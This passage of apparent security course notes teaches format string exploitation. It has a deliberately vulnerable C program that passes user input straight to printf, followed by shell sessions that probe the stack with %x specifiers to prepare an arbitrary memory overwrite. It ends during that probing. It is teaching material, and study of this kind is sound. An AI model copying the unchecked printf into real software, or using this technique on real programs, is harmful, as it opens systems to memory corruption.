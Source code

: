 To demonstrate this, we'll work with the following program:

``` {.c}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BUF_SIZE 1024
int main(int argc, char * argv[]){
  char buf[BUF_SIZE];

  static int test_val = 0x00414141; //"AAA\0" as an int


  strncpy(buf, argv[1], BUF_SIZE);

  printf("Right: ");
  printf("%s", buf);//<------safe
  printf("\n\n");

  printf("Wrong: ");
  printf(buf);      //<------vulnerable
  printf("\n\n");

  printf("[*] test_val @ %p = %d 0x%08x\n", &test_val,test_val,test_val);

  exit(0);

}
```

Let's see if we can overwrite test~val~ with any integer of our
choosing. To start with, let's see if we can change 0x00414141 to
0xEEDDCCBB.

To start, we need to determine how to align everything. To do this,
we'll begin by seeding our format string with something we can hunt for,
like BBBB and then look to see when our formats find that. Since we are
working in main, we are essentially hunting up the stack trying to find
the command line argument value that is the format string we are passing
in.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln BBBB
Right: BBBB

Wrong: BBBB

[*] test_val @ 0x804a02c = 4276545 0x00414141

user@si485H-base:demo$ ./fmt_vuln BBBB.%#08x
Right: BBBB.%#08x

Wrong: BBBB.0xbffff2c0

[*] test_val @ 0x804a02c = 4276545 0x00414141

user@si485H-base:demo$ ./fmt_vuln BBBB.%#08x.%#08x
Right: BBBB.%#08x.%#08x

Wrong: BBBB.0xbffff2b0.0x000400

[*] test_val @ 0x804a02c = 4276545 0x00414141

user@si485H-base:demo$ ./fmt_vuln BBBB.%#08x.%#08x.%#08x
Right: BBBB.%#08x.%#08x.%#08x
```